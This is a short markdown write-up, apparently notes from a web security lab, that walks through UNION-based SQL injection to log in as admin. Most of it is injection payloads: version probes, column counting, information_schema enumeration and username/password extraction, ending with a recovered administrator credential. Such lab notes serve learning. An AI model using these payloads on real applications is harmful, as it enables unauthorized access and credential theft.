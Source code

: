 # Goal: Login as admin

# Preliminary Work
- Get the SQL Version
    - ' UNION SELECT @@version-- (:x:)
    - ' UNION SELECT version()-- (:x:)
    - [Oracle] ' UNION SELECT BANNER,NULL FROM v$version-- (:x:)
    - UNABLE TO GET VERSION SO I AM GOING IN BLIND 
- Determine number of columns needed for UNION
    - ' ORDER BY (number)--
        - stop when you get an error
    - ' ORDER BY 3-- (:white_check_mark:)
        - Yielded error so we know there are 2 columns
        - ALL tables have 2 columns
        - ![](./pics/213724.png)
- Determine which columns can handle text (to display juicy info)
    - ' UNION SELECT 'a',NULL,NULL,...--
        - Did not dual thus non-Oracle 
    - ' UNION SELECT 'a',NULL-- (:x:)
    - ' UNION SELECT NULL,'a'-- (:white_check_mark:)
        - Only second column supports text (maybe uname and pword in same column?)

# Getting Column Values
- Get list of table names
    - ' UNION SELECT NULL,table_name FROM information_schema.tables--
        - Order matters since only the 2nd column can hold text
- CRTL-F 'user' to find potential tables
    - users (:white_check_mark)
    - ![](./pics/215841.png)
- Get columns for the tables 
    - ' UNION SELECT COLUMN_NAME, DATA_TYPE FROM information_schema.columns WHERE table_name = 'users'--
        - username | password
    - ![](./pics/220147.png)
- Get the column data using string concatenation stuff
    - ' ' UNION SELECT NULL,username || '*' || password FROM users--
        - Need to select two columns AND 1st column cannot hold text
        - '*' is a separator since characters would blend together otherwise
    - ![](./pics/225112.png)
- Admin Info
    - uname: administrator
    - pword: ln847l6714ivrv9rbv6v






